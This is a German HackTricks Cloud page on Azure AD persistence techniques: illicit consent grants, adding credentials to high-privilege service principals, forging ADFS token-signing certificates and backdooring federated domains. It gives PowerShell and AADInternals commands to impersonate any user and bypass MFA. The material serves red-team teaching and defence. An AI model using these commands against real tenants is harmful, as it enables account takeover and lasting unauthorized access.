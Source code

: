 # Az - Persistenz

{% hint style="success" %}
Lernen Sie & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen Sie & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories senden.**

</details>
{% endhint %}

### Illegitime Zustimmungserteilung

Standardmäßig kann sich jeder Benutzer in Azure AD registrieren. Sie können also eine Anwendung registrieren (nur für das Zielmandant), die hohe Auswirkungsberechtigungen mit Admin-Zustimmung benötigt (genehmigen Sie sie, wenn Sie der Administrator sind) - wie das Senden von E-Mails stellvertretend für einen Benutzer, Rollenverwaltung usw. Dies ermöglicht es uns, **Phishing-Angriffe** durchzuführen, die im Erfolgsfall sehr **erfolgreich** wären.

Darüber hinaus könnten Sie auch diese Anwendung mit Ihrem Benutzer akzeptieren, um den Zugriff darauf aufrechtzuerhalten.

### Anwendungen und Dienstprinzipale

Mit den Berechtigungen eines Anwendungsadministrators, GA oder einer benutzerdefinierten Rolle mit Berechtigungen für microsoft.directory/applications/credentials/update können wir Anmeldeinformationen (Geheimnis oder Zertifikat) zu einer vorhandenen Anwendung hinzufügen.

Es ist möglich, auf eine Anwendung mit hohen Berechtigungen abzuzielen oder eine neue Anwendung mit hohen Berechtigungen hinzuzufügen.

Eine interessante Rolle, die der Anwendung hinzugefügt werden könnte, wäre die **Rolle des privilegierten Authentifizierungsadministrators**, da sie es ermöglicht, das **Passwort von Globalen Administratoren zurückzusetzen**.

Diese Technik ermöglicht es auch, die **MFA zu umgehen**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Für die Authentifizierung basierend auf Zertifikaten

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Föderation - Token-Signaturzertifikat

Mit **DA-Berechtigungen** auf dem lokalen AD ist es möglich, **neue Token-Signatur**- und **Token-Entschlüsselungszertifikate** zu erstellen und zu importieren, die eine sehr lange Gültigkeitsdauer haben. Dies ermöglicht es uns, uns als **beliebiger Benutzer** anzumelden, dessen ImuutableID wir kennen.

**Führen** Sie den folgenden Befehl als **DA auf den ADFS-Server(n)** aus, um neue Zertifikate zu erstellen (Standardpasswort 'AADInternals'), fügen Sie sie zu ADFS hinzu, deaktivieren Sie die automatische Rollout-Funktion und starten Sie den Dienst neu:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dann aktualisieren Sie die Zertifikatsinformationen mit Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Föderation - Vertrauenswürdige Domäne

Mit GA-Berechtigungen in einem Mandanten ist es möglich, **eine neue Domäne hinzuzufügen** (muss überprüft werden), ihren Authentifizierungstyp auf Föderiert zu konfigurieren und die Domäne so zu konfigurieren, dass sie einem bestimmten Zertifikat (any.sts im folgenden Befehl) und Herausgeber vertraut:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referenzen

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Lernen & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>
{% endhint %}
